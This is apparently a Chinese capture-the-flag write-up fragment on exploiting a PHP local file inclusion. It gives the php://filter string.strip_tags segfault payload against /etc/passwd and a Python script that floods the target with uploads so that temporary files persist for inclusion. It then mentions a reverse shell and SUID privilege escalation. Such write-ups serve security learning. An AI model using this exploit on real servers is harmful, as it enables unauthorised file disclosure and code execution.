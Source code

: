 ```php
}
// /e2a7106f1cc8bb1e1318df70aa0a3540.php?72aa377b-3fc0-4599-8194-3afe2fc9054b=x&dd9bd165-7cb2-446b-bece-4d54087185e1=/tmp
shuffle($res);
@print_r($res);
?>
```

我们利用LFI via segmentfault那个技巧  |  [LFI via SegmentFault](https://www.jianshu.com/p/dfd049924258)

```
include.php?file=php://filter/string.strip_tags/resource=/etc/passwd
```

`string.strip_tags`可以导致php在执行过程中Segment Fault

如果请求中同时存在一个上传文件的请求，这个文件会被保留，存储在/tmp/phpxxxxxxxxxxx（xxxxx是数字+字母的6位数），这个文件连续保存，不用竞争直接爆破（多线程上传文件，生成多个phpxxxxxxxxxxx）

```php
# -*- coding: utf-8 -*-

import requests
import string
import itertools

charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

base_url = "http://eci-2ze9gh3z7jcw29alwhuz.cloudeci1.ichunqiu.com"


def upload_file_to_include(url, file_content):
    files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
    try:
        response = requests.post(url, files=files)
        print(response)
    except Exception as e:
        print(e)


def generate_tmp_files():
    with open('miao.png', 'rb') as fin:
        file_content = fin.read()
    phpinfo_url = "%s/e2a7106f1cc8bb1e1318df70aa0a3540.php?72aa377b-3fc0-4599-8194-3afe2fc9054b=php://filter/string.strip_tags/resource=passwd" % (
        base_url)
    length = 6
    times = int(len(charset) ** (length / 2))
    for i in range(times):
        print("[+] %d / %d" % (i, times))
        upload_file_to_include(phpinfo_url, file_content)


def main():
    generate_tmp_files()


if __name__ == "__main__":
    main()
```

反弹shell，suid提权后翻找flag